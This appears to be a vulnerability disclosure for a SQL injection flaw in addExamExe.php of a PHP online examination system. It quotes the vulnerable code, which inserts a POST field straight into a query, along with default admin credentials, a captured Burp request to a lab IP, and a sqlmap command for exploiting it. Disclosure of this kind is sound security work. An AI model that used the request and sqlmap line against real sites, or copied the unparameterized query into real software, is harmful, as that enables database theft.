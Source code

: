 ## Online Examination System With Timer

## SQL Injection on `addExamExe.php`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/online-examination-system-with-timer/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/adminpanel/index.php
admin@username
admin@password
```

### Affected Page:

```
/adminpanel/admin/query/addExamExe.php
```

The potential injection point is located in `addExamExe.php`. This file directly utilizes the `$examTitle`  variables to construct a database query without employing parameterized queries or proper data sanitization measures.

```php
# addExamExe.php
extract($_POST);
$selCourse = $conn->query("SELECT * FROM exam_tbl WHERE ex_title='$examTitle' ");
if($courseSelected == "0")
{
	$res = array("res" => "noSelectedCourse");
}
else if($timeLimit == "0")
{
	$res = array("res" => "noSelectedTime");
}
else if($examQuestDipLimit == "" && $examQuestDipLimit == null)
{
	$res = array("res" => "noDisplayLimit");
}
else if($selCourse->rowCount() > 0)
{
	$res = array("res" => "exist", "examTitle" => $examTitle);
}
```

### Proof of Concept:

**Burp Request:**

```
POST /adminpanel/admin/query/addExamExe.php HTTP/1.1
Host: 192.168.150.131
Content-Length: 79
Accept: application/json, text/javascript, */*; q=0.01
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.150.131
Referer: http://192.168.150.131/adminpanel/admin/home.php?page=manage-course
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=a3630ea0258c281edaea4e92c6a98410
x-forwarded-for: 8.8.8.8
Connection: close

courseSelected=65&timeLimit=10&examQuestDipLimit=123&examTitle=123&examDesc=123
```

```
python sqlmap.py -r 1.txt --current-user --batch --dbms mysql
```

**Screenshot:**

![image-20240513175942054](./screenshot/image-20240513175942054.png)
